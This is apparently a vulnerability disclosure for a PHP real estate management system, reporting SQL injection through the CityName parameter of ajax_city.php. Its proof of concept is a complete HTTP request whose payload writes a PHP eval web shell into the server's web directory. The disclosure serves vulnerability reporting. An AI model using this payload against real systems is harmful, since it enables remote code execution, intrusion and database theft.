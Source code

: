 # Real Estate Property Management System has Unrestricted Upload and sql injection vulnerability in ajax_city.php

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability file
ajax_city.php

## describe

An unrestricted SQL injection and upload_file attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: CityName. This function executes the id parameter into the SQL statement without any restrictions.Can upload shell in the server. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analy,sis**    

When the value of   CityName parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. And upload the file.

![Image](https://github.com/user-attachments/assets/40c942bd-6b9a-4498-93fe-533c63e4859a)

## POC

```
POST /ajax_city.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

CityName=1'+UNION+SELECT+1,2,'<?php+eval($_POST[cmd]);?>'+into+outfile+'D:/phpstudy_pro/WWW/Property/shell.php'--+
```

**Result**

![Image](https://github.com/user-attachments/assets/5ae3093e-8c91-4ca1-90a1-456065b266ed)

![Image](https://github.com/user-attachments/assets/20c52585-4e86-4d76-98ce-152cc7b89798)

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
